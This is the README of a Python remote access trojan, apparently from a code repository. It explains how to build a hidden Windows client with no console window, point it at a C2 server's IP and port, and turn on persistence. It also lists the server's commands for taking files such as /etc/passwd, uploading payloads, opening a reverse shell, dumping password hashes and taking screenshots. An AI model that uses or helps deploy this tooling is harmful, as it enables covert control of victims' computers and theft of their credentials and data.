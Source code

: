 ## Python RAT

### Introduction

This project is a minimal implementation of a Client-Server RAT.

### Install

In order to install the dependencies, you must run the following command: (with or without venv, as you wish)

```bash
pip install -r requirements.txt
```

### Build

#### Linux

As agreed, the linux client will be executed by the python interpreter. So, no build is required. However, you must install the dependencies before.

#### Windows

For Windows client, you must additionally compile the client by running the following command: (`pyinstaller` must be installed in the previous step)

```bash
pyinstaller --noconsole --onefile client.py
```

`--noconsole` means that no window will pop up when the executable is executed.

You must find the executable in the `dist` directory.

### Usage
#### Client

The client don't need any argument to be executed, in order to make quick attacks easier. However, if you want to specify the server IP and port, you can modify those values in the `client.py`, at the end of the file: (`Client` folder)

```python
C2_IP = 'YOUR_IP'
C2_PORT = YOUR_PORT
```

You can run the client by executing the following command:

```bash
python3 client.py
```

#### Server

In order to start the server, you must specify the listening port as the first argument: (`C2` folder)

```bash
python3 main.py YOUR_PORT
```

### Available commands on the server
```
<command> [args]
====================
agents      : List all connected agents
agent       : Select an agent by ID | ID: Integer | Ex: agent 3
bg          : Deselect the current agent
kill        : Kill an agent by id | ID: Integer | kill 4
exec        : Execute a system command in the local machine
help        : Show this help message
exit        : Exit the server
==================== ONCE AGENT SELECTED:
download    : Download the specified files | FILE: String | Ex: download /etc/passwd /etc/hosts
upload      : Upload a file to selected target | LOCAL_FILE: String   REMOTE_DEST: String | upload payload.exe /tmp/payload.exe
search      : Search a file on the target's filesystem 
shell       : Open a reverse shell from the selected agent (type exit to quit the shell) (not interactive)
hashdump    : Dump the hashes from the target (may crash on Windows)
ipconfig    : Retrieve the IP Configuration from the current target 
screenshot  : Take a screenshot from the selected agent, you can optionally specify a name for the screenshot | Optional: FILE: String | screenshot [my_screenshot]
====================
```

### Misc

#### Persistancy

In order to enable persistancy, you must uncomment the following line twice in the `client.py`, at the end of the file:

```python
#client.persistence()
```

### Files structure

```
- C2/
    - main.py: Start the server, should be run with python
    - server.py: Server class, handles the communication with the agents
    - server.key: Private key for the server
    - server.crt: Certificate for the server
    - symbols.py: Custom codes for the communication
    - agent.py: Agent class
- Client/
    - client.py: Client class, handles the communication with the server
```